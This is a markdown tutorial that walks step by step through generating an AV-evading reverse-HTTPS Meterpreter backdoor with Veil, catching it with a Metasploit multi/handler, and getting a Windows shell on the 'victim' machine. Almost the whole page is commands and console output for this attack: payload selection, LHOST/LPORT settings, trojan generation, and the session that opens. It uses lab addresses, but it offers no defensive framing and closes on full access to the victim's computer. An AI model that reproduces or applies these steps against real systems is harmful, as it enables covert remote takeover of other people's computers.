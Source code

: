 -----

* title: Creating backdoors with veil and metasploit
* description: This article is dedicated to Veil framework.
* created: 23-07-2021 16:14:00
* modified: 23-07-2021 16:14:00
* keywords: gnu, linux, admin, network, security, hacking, backdoor, exploit
* lang: en

-----

# Introduction

# Creating the backdoor

First install veil, but really this way, as the installation of veil will 
install tons of other stuff which will popup wizards etc and you will fail 
at some point anyway:

    apt update
    apt install -y veil
    /usr/share/veil/config/setup.sh --force --silent

Start veil as root user.

Use the Evasion tool:

    use 1

List the available payloads:

    list

This shows a list (41 items) of different payloads. In this case we want to 
create a reverse https connection. So that the infected machine will start 
the connection itself and which will then probably not blocked by the 
firewall or router. As the victim will probably have a local ip address.

The other important point, as we will use metasploit, we need to find a 
payload containing the word `meterpreter`, as they are the same authors as 
metasploit. For example payload 15.

    15)     go/meterpreter/rev_https.py

Select the desired payload:

    use 15

Set the desired options:

    set LHOST 10.0.2.4
    set LPORT 8080

Finally, generate the backdoor:

    generate

Give a name to the output file:

    go_rev_https_8080

You get some information to where the output is generated. Which is:

    /var/lib/veil/output/compiled/

# Using the backdoor

Start the metasploit console with:

    msfconsole

Nos use a multi handler listener:

    use exploit/multi/handler

We need to select the same payload as we used to create the Trojan backdoor. 
But we can list all available payloads with `show payloads`. Which will 
return a list of `549` entries.

Set the payload:

    set PAYLOAD windows/meterpreter/reverse_https

See the available options we can/need to set

    show options

Set the required options

    set LHOST 10.0.2.4
    set LPORT 8080

Verify the options now and if needed, adjust them like we did before:

    show options

Now it's time to launch the exploit:

    exploit

You will see that the interpreter looks like this now:

    msf6 exploit(multi/handler) > exploit
    
    [*] Started HTTPS reverse handler on https://10.0.2.4:8080

It is now waiting that the victim runs the backdoor Trojan.

So on a Windows machine launch one of the created reverse HTTPS backdoor.

Once this happens, you will see that you are connected.

    [!] https://10.0.2.4:8080 handling request from 10.0.2.5; (UUID: n9stxefm) Without a database connected that payload UUID tracking will not work!
    [*] https://10.0.2.4:8080 handling request from 10.0.2.5; (UUID: n9stxefm) Staging x86 payload (176220 bytes) ...
    [!] https://10.0.2.4:8080 handling request from 10.0.2.5; (UUID: n9stxefm) Without a database connected that payload UUID tracking will not work!
    [*] Meterpreter session 1 opened (10.0.2.4:8080 -> 127.0.0.1) at 2021-07-24 17:45:32 +0200
    
    meterpreter >

You can get system information with:

    sysinfo

And you can run other metasploit shell commands  But at this point 
your still not really on the Windows shell. 

To get the Windows shell, type

    shell

Now you have full access on the victims computer through the Windows shell
